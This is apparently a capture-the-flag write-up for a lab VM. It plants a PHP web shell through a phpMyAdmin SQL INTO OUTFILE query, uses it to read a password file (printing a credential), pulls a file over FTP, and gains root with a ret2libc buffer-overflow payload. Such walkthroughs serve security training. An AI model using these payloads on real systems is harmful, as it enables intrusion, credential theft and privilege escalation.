 # bonus1

We used quite a few tricks to get our life easier, which are going to be explained here.

## PHPMYADMIN

```sql
SELECT "<?php system($_GET['cmd']) ?>"
INTO OUTFILE "/var/www/forum/templates_c/com.php"
```

https://192.168.56.101/forum/templates_c/com.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"

## FTP LMEZARD

```bash
ftp 192.168.56.101
..
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||26189|)
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |***********************************************************************************|   790 KiB   63.37 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (62.55 MiB/s)
```

```
$ mv fun /tmp && cd /tmp && tar -xf fun && cd fun && for file in ./*
$ do
$ cat $file >> ../res
$ done
```

## ROOT RET2LIBC

```bash
$ ./exploit_me $(python -c 'print "a" * 140 + "\x60\xb0\xe6\xb7" + "aaaa" + "\x58\xcc\xf8\xb7"')
$ whoami
root
```
